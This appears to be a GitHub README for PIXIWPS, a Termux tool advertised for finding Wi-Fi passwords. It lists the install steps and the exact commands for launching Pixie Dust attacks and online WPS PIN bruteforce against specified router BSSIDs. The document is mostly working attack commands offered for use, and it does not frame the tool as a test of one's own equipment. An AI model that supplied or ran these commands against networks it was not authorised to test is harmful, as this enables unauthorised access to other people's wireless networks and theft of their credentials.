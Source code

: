 ## PIXIWPS
### Find Wifi Passwords Using Termux! (Requires Root)

### Installation :

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/omnitx/pixiwps
$ cd pixiwps
$ chmod +x run.py
$ sudo python run.py --help
```

#### Example : `sudo python pixiwps/run.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python pixiwps/run.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python pixiwps/run.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python pixiwps/run.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
